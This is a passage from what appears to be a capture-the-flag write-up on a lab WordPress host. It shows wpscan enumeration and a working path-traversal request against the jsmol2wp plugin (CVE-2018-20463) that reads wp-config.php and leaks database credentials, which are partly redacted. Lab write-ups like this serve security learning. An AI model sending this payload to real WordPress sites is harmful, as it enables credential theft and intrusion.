 ### Web 80

Visiting `http://www.smol.thm/`, we are greeted with a **WordPress** site.

![Web 80 Index](web_80_index.webp){: width="1200" height="600"}

## Shell as www-data

Since we have found a **WordPress** installation, we can use `wpscan` to enumerate it as follows:

```console
wpscan --url http://www.smol.thm/
```

From the output, one notable finding is the `jsmol2wp v1.07` plugin being installed.

```console
[+] jsmol2wp
 | Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
 | Latest Version: 1.07 (up to date)
 | Last Updated: 2018-03-09T10:28:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.07 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
```

Looking for vulnerabilities in the plugin, we find [CVE-2018-20463](https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611/), which is both an `SSRF` and a `file disclosure` vulnerability. A provided `PoC` for this vulnerability is as follows:

```
http://localhost:8080/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```
{: .wrap }

Testing the vulnerability by making a request to:

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```
{: .wrap }

We confirm that the vulnerability exists, as the request returns the contents of the `wp-config.php` file and this file includes the database credentials: `wpuser:kb[REDACTED]%G`

![Web 80 File Disclosure Wpconfig](web_80_file_disclosure_wpconfig.webp){: width="800" height="600"}

We can test these credentials for the **WordPress** login at `http://www.smol.thm/wp-login.php`.
